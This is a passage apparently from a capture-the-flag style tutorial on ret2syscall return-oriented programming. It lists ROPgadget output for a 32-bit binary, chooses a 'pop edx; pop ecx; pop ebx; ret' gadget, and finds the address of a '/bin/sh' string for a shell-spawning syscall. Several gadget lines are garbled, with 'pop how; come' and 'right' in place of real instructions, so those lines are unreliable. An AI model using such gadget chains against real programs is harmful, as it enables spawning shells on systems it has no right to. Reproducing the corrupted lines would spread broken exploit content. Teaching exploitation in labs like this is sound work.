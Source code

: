 ```shell

0x0804838b: pop ebx; pop how; come; pop ebp; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10

0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14

0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc

0x0805ae81: pop ebx; pop how; come; pop ebp; ret 4
0x08049bfd: pop ebx; pop esi; pop edi; pop ebp; ret 8
0x08048913: pop ebx; pop how; come; ret
0x08049a19: pop ebx; pop how; come; ret 4
0x08049a94 : pop ebx ; pop esi ; ret

0x080481c9: pop ebx; right
0x080d7d3c : pop ebx ; ret 0x6f9

0x08099c87 : pop ebx ; ret 8

0x0806eb91 : pop ecx ; pop ebx ; ret

0x0806336b: come up; pop how; pop ebx; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret

0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret

0x0806eb68: pop esi; pop ebx; pop edx; right
0x0805c820, pop esi; pop ebx; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret

0x0807b6ed : pop ss ; pop ebx ; ret

```



Here, I choose


```text

0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret

```



This can directly control the other three registers.


In addition, we need to get the address corresponding to the /bin/sh string.


```shell

➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 

Strings information

============================================================

0x080be408 : /bin/sh

```
